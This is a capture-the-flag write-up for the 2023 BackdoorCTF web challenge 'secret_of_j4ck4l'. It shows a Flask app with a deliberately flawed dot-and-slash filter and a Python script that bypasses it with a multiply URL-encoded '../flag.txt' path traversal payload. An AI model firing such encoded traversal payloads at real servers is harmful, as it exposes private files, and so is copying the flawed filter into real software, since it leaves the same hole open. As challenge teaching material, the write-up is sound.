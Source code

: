 ```yaml
---
title: 2023 BackdoorCTF - secret_of_j4ck4l
author: thanguyen165
date: 2023-12-18 00:00:00 +0700
categories: [Write-ups, 2023_BackdoorCTF]
tags: [Web Exploitation, Path traversal]
---
```


* 326 solves / 237 points
* Author: j4ck4l

## Description

> I left a message for you. You will love it definitely
> [http://34.132.132.69:8003/](http://34.132.132.69:8003/)

## Attached

[secret_of_j4ck4l.zip](attached/secret_of_j4ck4l.zip)


```py
from flask import Flask, request, render_template_string, redirect
import os
import urllib.parse

app = Flask(__name__)

base_directory = "message/"
default_file = "message.txt"

def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5


@app.route('/')
def index():
    return redirect('/read_secret_message?file=message')

@app.route('/read_secret_message')
def read_file(file_param=None):
    file_param = request.args.get('file')
    file_param = useless(file_param)
    print(file_param)
    file_path = os.path.join(base_directory, file_param)

    try:
        with open(file_path, 'r') as file:
            content = file.read()
        return content
    except FileNotFoundError:
        return 'File not found! or maybe illegal characters detected'
    except Exception as e:
        return f'Error: {e}'


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=4053)

```
{: file="app.py" }

## Analyzation

Make a path traversal and we got the flag.

```
http://34.132.132.69:8003/read_secret_message?file={payload}
```

But the payload has to pass the filter

```py
def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5
```

- ```ignore_it(file_param)``` detects dot and slash. But it can be passed by encoding to ```%2e``` and ```%2f```.

- ```another_useless_function(file_param)``` unquote the url. But double encoding works fine: ```%2e``` to ```%252e```.

## Solution

```py
import requests

URL = "http://34.132.132.69:8003/read_secret_message?file={}"

query = "%2e%2e%2fflag%2etxt"
for i in range(3):
    for j in range(i):
        query = query.replace("%", "%25")
        response = requests.get(URL.format(query))
        print(response.text)
```

The flag is
```
flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}
```